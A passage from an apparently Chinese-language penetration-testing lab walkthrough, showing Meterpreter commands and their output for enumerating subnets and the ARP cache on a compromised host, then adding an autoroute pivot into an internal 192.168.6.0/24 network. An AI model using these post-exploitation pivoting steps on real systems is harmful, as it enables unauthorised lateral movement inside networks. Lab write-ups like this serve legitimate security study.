 也可以

```
meterpreter > run get_local_subnets

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
Local subnet: 192.168.6.0/255.255.255.0
Local subnet: 172.16.56.0/255.255.255.0
```

我们发现其连接着一个`192.168.6.0/24`的内部网络。使用`arp`命令查看内部网络中其他计算机有没有与其建立连接：

```
meterpreter > arp

ARP cache
=========

    IP address     MAC address        Interface
    ----------     -----------        ---------
    172.16.56.1    00:50:56:c0:00:08
    192.168.6.128  00:0c:29:28:f7:12
    192.168.6.254  00:50:56:ff:00:10
```

其中`.254`是VMWare虚拟网络本身使用的地址。所以`.128`处有一台机器。我们在meterpreter中建立一个跳板：

```
meterpreter > run autoroute -s 192.168.6.0/24

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 192.168.6.0/255.255.255.0...
[+] Added route to 192.168.6.0/255.255.255.0 via 172.16.56.130
[*] Use the -p option to list all active routes
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.6.0        255.255.255.0      Session 1
```

成功设置跳板。先将meterpreter切入后台：

```
meterpreter > background
[*] Backgrounding session 1...
```
